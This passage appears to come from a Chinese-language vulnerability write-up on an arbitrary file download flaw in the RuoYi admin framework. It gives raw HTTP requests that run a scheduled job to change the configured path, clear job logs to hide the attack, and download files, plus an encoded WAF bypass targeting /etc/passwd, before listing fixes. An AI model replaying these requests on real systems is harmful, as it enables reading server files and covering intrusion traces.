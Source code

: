 - 此操作绕过了下载功能原本的“固定目录白名单”限制，将下载路径指向自定义位置。  
  
#### 执行定时任务（触发配置修改）  
```
POST /monitor/job/run HTTP/1.1Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=7c625b5d-cd39-49fd-87db-bbb64c596c1bUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36Host: 10.40.107.67Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2Content-type: application/x-www-form-urlencodedContent-Length: 9Connection: closejobId=117
```  
- 立即执行 jobId=117  
 对应的定时任务，触发 ruoYiConfig.setProfile()  
 方法调用，完成配置文件路径的修改。  
  
- 修改后，系统将从新的配置路径（攻击者指定路径）读取文件。  
  
#### 清理任务日志（擦除攻击痕迹）  
```
POST /monitor/jobLog/clean HTTP/1.1Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=7c625b5d-cd39-49fd-87db-bbb64c596c1bUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36Host: 10.40.107.67Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2Content-type: application/x-www-form-urlencodedContent-Length: 0Connection: close
```  
- 删除任务执行日志，避免管理员发现恶意任务记录。  
  
- 此步骤非漏洞必要环节，但常用于隐蔽攻击行为。  
  
#### 触发任意文件下载  
```
GET /common/download/resource?resource=2.txt HTTP/1.1Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=7c625b5d-cd39-49fd-87db-bbb64c596c1bUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36Host: 10.40.107.67Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2Connection: close
```  
- 下载功能仅校验“配置文件中的路径”，未对动态修改后的路径进行二次白名单校验。  
  
## bypass  
  
对路径参数进行 URL 编码或 Unicode 编码，绕过 WAF 检测：  
```
invokeTarget=ruoYiConfig.setProfile('%2F%65%74%63%2F%70%61%73%73%77%64')
```  
## 修复  
1. **官方补丁**  
：  
  
1. 升级若依至 **4.7.6 以上版本**  
，官方已修复权限校验和路径白名单问题。  
  
1. **代码级修复**  
：  
  
1. **权限校验**  
：对 /monitor/job/add  
 等后台接口添加严格的角色权限控制。  
  